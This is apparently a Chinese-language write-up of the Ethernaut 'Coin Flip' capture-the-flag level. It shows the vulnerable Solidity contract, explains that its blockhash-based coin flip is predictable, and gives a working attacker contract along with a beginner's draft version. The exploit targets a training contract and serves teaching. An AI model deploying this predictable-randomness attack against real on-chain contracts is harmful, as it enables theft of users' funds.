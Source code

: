 # 03-Coin Flip

小结: 逻辑漏洞
日期: 15/08/2024
难易: 简单

# 问题描述

This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor() {
        consecutiveWins = 0;
    }

    function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }
}
```

# 攻击思路

代码是通过`flip`函数，带上true或者false的变量，去猜。

通过代码`coinFlip = blockValue / FACTOR;`可以知道结果其实是通过`blockValue`和`Factor`来确定的。

- `Factor`是一个确定的值
- `blockValue`跟`block.number`强相关

写一个攻击合约`AttackCoinFlip`，部署在相同的链上，然后输入相同的`FACTOR`，这样`colinFlip`和`coinFlip`合约相同，我们可以先知道结果，然后再去猜，百发百中。

## 细节思考

- 需要保障攻击合约和victim合约在同一个`block.number`，手动操作的话，还是有概率发生拿到结果但是还没有猜测的时候，number已经加一
- 看了一下代码，应该是通过consecutiveWins到10即可，无所谓是谁攻击，所以我们可以代码自动攻击，拿到结果直接进行预测。
    - 这仅仅是针对解题，当然实际场景中的攻击就更加无所谓了

## 攻击代码

下面的代码和源代码是同一个文件

```solidity
pragma solidity ^0.8.0;

contract AttackCoinFlip{
    CoinFlip victim;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _victim){  
        victim = CoinFlip(_victim);
    }

    function attack() public {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        
        victim.flip(side);
    } 
}
```

![image.png](images/03-image.png)

# 小白的思考

下面是我刚开始写的代码，甚至用到了while loop

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

interface ICoinFlip {
    function flip(bool _guess) external returns (bool);
    function consecutiveWins() external view returns (uint256);
} 

contract AttackCoinFlip{
    ICoinFlip victim;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    uint256 blockValue;

    constructor(address _victim){
        victim = ICoinFlip(_victim);
    }

    function attack() public {
        uint256 winCounts = victim.consecutiveWins();
        while (winCounts < 10) {
            blockValue = uint256(blockhash(block.number - 1));
            uint256 coinFlip = blockValue / FACTOR;
            bool side = coinFlip == 1 ? true : false;
            victim.flip(side);
        }
    }
}
```

- 不用for loop是因为考虑到了连续会触发下面的代码，跑不到10次，但是其实while也会，比较浪费gas

```jsx
        if (lastHash == blockValue) {
            revert();
        }
```

最后还是要手动来一次操作才可以

用while也不是不可以，但是触发太快，得把监控`block.number`也写进去